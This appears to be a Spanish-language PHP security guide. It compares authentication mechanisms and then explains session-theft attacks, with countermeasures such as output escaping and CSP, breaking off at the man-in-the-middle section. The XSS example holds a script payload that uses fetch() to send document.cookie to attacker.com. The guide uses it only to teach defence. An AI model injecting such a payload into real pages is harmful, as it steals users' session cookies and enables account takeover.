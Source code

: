 | **Mecanismo de Autenticación**             | **Descripción**                                                                                                           | **Implementación**                                                                                         | **Seguridad**                                                   |
|--------------------------------------------|---------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|
| **Sesiones**                               | Utiliza sesiones del servidor para almacenar la información del usuario después de iniciar sesión.                        | Usa `$_SESSION` para almacenar y verificar los datos del usuario.                                           | Configura cookies con `HttpOnly` y `Secure`.                   |
| **Cookies (Recordar sesión)**              | Permite al usuario permanecer conectado mediante un token almacenado en una cookie.                                       | Guarda un token hash en la cookie y verifica con la base de datos.                                          | Usa cookies seguras y renueva el token regularmente.           |
| **JWT (JSON Web Token)**                   | Utiliza tokens sin estado para autenticar usuarios, ideal para APIs REST.                                                 | Usa la biblioteca `firebase/php-jwt` para crear y validar tokens.                                           | Configura tiempos de expiración cortos y almacena tokens de refresco. |
| **OAuth (Redes sociales)**                 | Permite iniciar sesión con cuentas de Google, Facebook, GitHub, etc.                                                      | Usa bibliotecas como `PHPoAuthLib` o las APIs de las redes sociales.                                        | Valida siempre los datos recibidos del proveedor de OAuth.     |
| **Autenticación de dos factores (2FA)**    | Requiere una contraseña y un código adicional (enviado al correo o teléfono).                                             | Usa bibliotecas como `Google Authenticator` para generar códigos TOTP.                                      | Proporciona alta seguridad, aunque requiere más gestión.       |
| **Enlaces mágicos (Magic Links)**          | El usuario recibe un enlace de un solo uso por correo electrónico para iniciar sesión.                                    | Genera un token de un solo uso y envíalo por correo.                                                        | Expira rápidamente y se usa solo una vez.                      |
| **IP y User-Agent**                        | Autentica al usuario teniendo en cuenta la IP y el User-Agent del navegador.                                              | Usa `$_SERVER['REMOTE_ADDR']` y `$_SERVER['HTTP_USER_AGENT']`.                                              | Puede mejorar la seguridad, pero es menos confiable.           |
| **Biométrica**                             | Utiliza datos biométricos como huellas digitales o reconocimiento facial.                                                 | Se implementa generalmente en aplicaciones móviles, con PHP manejando los datos en el backend.              | Altamente seguro, pero depende del soporte del dispositivo.    |
| **CAPTCHA**                                | Protege el formulario de inicio de sesión de bots y ataques de fuerza bruta.                                              | Usa `Google reCAPTCHA` para validar la autenticidad del usuario.                                            | Buena medida adicional para formularios públicos.              |

### Robos de sesión

A continuación, se describen algunos métodos comunes utilizados para robar la sesión de un usuario, junto con las contramedidas necesarias para evitar estos ataques. 

#### 1. **Ataque de Cross-Site Scripting (XSS)**

Los ataques XSS aprovechan vulnerabilidades en el código para inyectar scripts maliciosos en páginas web visitadas por otros usuarios. Estos scripts pueden acceder a las cookies de sesión y enviarlas al atacante.

Ejemplo:

```html
<input type="text" name="comentario" value="<script>fetch('https://attacker.com?cookie=' + document.cookie)</script>">
```

El código inyectado envía la cookie de sesión a una URL controlada por el atacante.

Contramedidas:

  - Escapar y sanear entradas: Utiliza funciones como `htmlspecialchars()` en PHP para escapar caracteres especiales.

    ```php
    $comentario = htmlspecialchars($_POST['comentario'], ENT_QUOTES, 'UTF-8');
    ```

  - Política de Seguridad de Contenidos (CSP): Implementa CSP para restringir el origen de scripts.

    ```http
    Content-Security-Policy: script-src 'self';
    ```

#### 2. **Ataque de Man-in-the-Middle (MitM)**

Si el sitio no utiliza HTTPS, un atacante puede interceptar el tráfico y capturar cookies de sesión no cifradas.
